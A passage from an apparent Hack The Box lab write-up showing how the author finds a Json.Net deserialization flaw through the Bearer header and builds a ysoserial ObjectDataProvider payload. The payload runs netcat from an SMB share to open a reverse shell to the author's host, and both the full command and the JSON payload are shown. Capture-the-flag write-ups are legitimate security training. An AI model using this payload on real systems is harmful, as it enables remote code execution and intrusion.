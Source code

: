 ![](/assets/images/htb-writeup-json/bearer.png)

I'll modify the `Bearer` header and see if I can make it error out. To start with, I'll use the following payload which is invalid JSON:

`echo '{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3",thisisinvalid___aaaaaaa}' | base64 -w0`

![](/assets/images/htb-writeup-json/json500.png)

Ahah! So now I know that the web application is deserializing the `Bearer` content using the Json.Net library. I remember reading about deserialization vulnerabilities recently during my OSWE studies. There was also another HTB box called Arkham who used a deserialization vulnerability but with Java.

There's a nice tool already written that generates deserialization payloads using gadgets found in common librairies and frameworks. For this box, I'll use the ObjectDataProvider gadget with the Json.net formatter. I'll attempt to get a reverse shell by executing netcat through an SMB share on my box.

```
ysoserial.exe -g ObjectDataProvider -f json.net -c "\\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444" -o raw
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c \\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
